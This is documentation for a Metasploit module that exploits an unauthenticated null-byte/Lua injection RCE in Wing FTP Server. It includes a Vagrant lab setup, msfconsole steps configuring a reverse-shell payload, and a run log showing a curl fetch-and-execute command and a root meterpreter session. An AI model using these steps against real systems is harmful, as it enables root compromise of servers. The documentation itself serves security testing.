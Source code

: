 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated Remote Code Execution** vulnerability
in **Wing FTP Server** (≤ 7.4.3 on Linux 64-bit), via its web administration interface.
The flaw lies in the login handler (`loginok.html`): by injecting a null byte (`%00`) into
the `username` parameter, attacker-supplied Lua code is written into the session file and
then executed by `loadfile()`, yielding arbitrary code execution as **root**.

To set up a vulnerable lab, use the following **Vagrantfile**, which provisions a Debian
"bookworm" VM, installs Wing FTP Server 7.4.3, and exposes its HTTP/S and FTP ports on the host:

```ruby
Vagrant.configure("2") do |config|
  config.vm.box = "debian/bookworm64"

  if Vagrant.has_plugin?("vagrant-vbguest")
    config.vbguest.auto_update = false
  end

  {
    21    => 2121,   # FTP
    990   => 2990,   # FTPS
    5466  => 5466,   # Admin port WingFTP
    50000 => 50000,  # Passive FTP range start
    50050 => 50050,  # Passive FTP range end
    80    => 8081    # HTTP WingFTP Web GUI
  }.each do |guest, host|
    config.vm.network "forwarded_port",
                      guest:        guest,
                      host:         host,
                      host_ip:      "0.0.0.0",
                      auto_correct: true
  end

  config.vm.provision "shell", inline: <<-SHELL
#!/usr/bin/env bash
set -e

ADMIN_USER="admin"
ADMIN_PASS="adminadmin"
ADMIN_PORT="5466"
WFTP_URL="https://web.archive.org/web/20250108084555/https://www.wftpserver.com/download/wftpserver-linux-64bit.tar.gz"

apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y --no-install-recommends \
  wget ca-certificates libssl3 libpam0g libacl1 libcap2 \
  net-tools procps expect curl \
  linux-headers-amd64 build-essential dkms

mkdir -p /opt/wingftp
cd /opt/wingftp
wget -qO wftp.tar.gz "$WFTP_URL"
tar xzf wftp.tar.gz --strip-components=1
rm wftp.tar.gz
chmod +x setup.sh

expect -c "
  spawn /opt/wingftp/setup.sh
  expect \\\"Enter your administrator name:\\\"     { send \\\"${ADMIN_USER}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter the listener port\\\"           { send \\\"${ADMIN_PORT}\\r\\\" }
  expect \\\"Do you want to start Wing FTP Server now?\\\" { send \\\"y\\r\\\" }
  expect eof
"

systemctl daemon-reload
systemctl enable wftpserver.service
systemctl start wftpserver.service
SHELL

  config.vm.provider "virtualbox" do |vb|
    vb.memory = 512
    vb.cpus   = 1
  end
end
```

* Save this as Vagrantfile in an empty directory.
* Run vagrant up.
* After provisioning, access the Wing FTP Server web UI at http://localhost:5466/ with credentials admin/adminadmin.
* On first login, a popup will appear; click OK.
* Create a new domain in the admin interface (this will enable the web client panel, port 8081).
* Then create a new user; for simplicity, use anonymous.


## Verification Steps

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wingftp_null_byte_rce
```
3. Set target parameters:
```
set RHOSTS 127.0.0.1
set RPORT 8081
set TARGETURI /
```
4. Configure payload:
```
set payload cmd/linux/http/x64/meterpreter/reverse_tcp
set LHOST <your IP>
set LPORT <your port>
```
5. Run the exploit:
```
run
```
6. On success, a Meterpreter session will open, confirming remote code execution.


## Options

### USERNAME

A valid username (default: anonymous)

### PASSWORD

A valid password (default: '')


## Scenarios

### Successful Exploitation against Wing FTP Server

**Setup**:

* Wing FTP Server running in the Vagrant VM above.
* Attacker on host machine with Metasploit.

**Steps**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf exploit(multi/http/wingftp_null_byte_rce) > run http://lab:8081
[*] Command to run on remote host: curl -so ./FaWVivODJhB http://192.168.1.36:9999/LoPlnjEpeOexZNVppn6cAA;chmod +x ./FaWVivODJhB;./FaWVivODJhB&
[*] Fetch handler listening on 192.168.1.36:9999
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. UID cookie received: UID=2a5efb5a398e4ff19369a523c3cfffb03683e20446a6b40715757e2b05f10521
[+] Received UID: UID=146015b242094d8f4eff04941d94e67d3683e20446a6b40715757e2b05f10521
[*] Client 192.168.1.36 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 192.168.1.36 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.36:46260) at 2025-07-01 18:56:31 +0200

meterpreter > sysinfo 
Computer     : 10.0.2.15
OS           : Debian 12.9 (Linux 6.1.0-37-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
